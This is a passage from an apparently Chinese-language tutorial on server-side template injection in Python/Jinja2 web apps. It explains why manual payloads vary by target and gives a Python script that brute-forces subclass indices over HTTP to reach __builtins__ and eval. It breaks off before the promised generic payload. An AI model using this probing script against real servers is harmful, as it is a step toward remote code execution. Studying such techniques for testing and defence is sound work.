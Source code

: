 ![image-20231130020148213](../.gitbook/assets/image-20231130020148213.png)

手工虽然方便调试，但是极其麻烦，而且上述的payload并不是通用的，目标机器环境不一样，序号也会改变，所以自动化是一个很必要的步骤。

根据上面的手工过程，我们可以选择用Python脚本实现自动化查找，也可以使用模板语法的方式直接构建自动化的通用 payload：

```python
# 使用 python 脚本 用于寻找序号
url = "http://url/level/1"
def find_eval(url):
    for i in range(500):
        data = {
            'code': "{{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}",
        }
        res = requests.post(url, data=data, headers=headers)
        if 'eval' in res.text:
            print(data)
find_eval(url)
```

当然你也可以直接在python中完成识别后直接构建payload提交，比如下面的模板语法就完美实现了这一点：
